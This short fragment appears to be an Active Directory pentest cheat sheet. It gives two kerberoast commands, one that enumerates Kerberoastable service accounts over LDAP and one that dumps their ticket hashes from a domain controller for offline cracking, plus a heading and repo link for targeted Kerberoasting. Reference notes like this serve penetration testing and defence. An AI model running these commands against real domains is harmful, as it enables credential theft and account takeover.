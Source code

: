    kerberoast ldap spn 'ldap+ntlm-password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -o kerberoastable ( 1. Enumerate kerberoastable users)

    kerberoast spnroast 'kerberos+password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -t kerberoastable_spn_users.txt -o kerberoast.hashes ( 2. Dump hashes)


# Targeted Kerberoasting

## Github repo: https://github.com/ShutdownRepo/targetedKerberoast

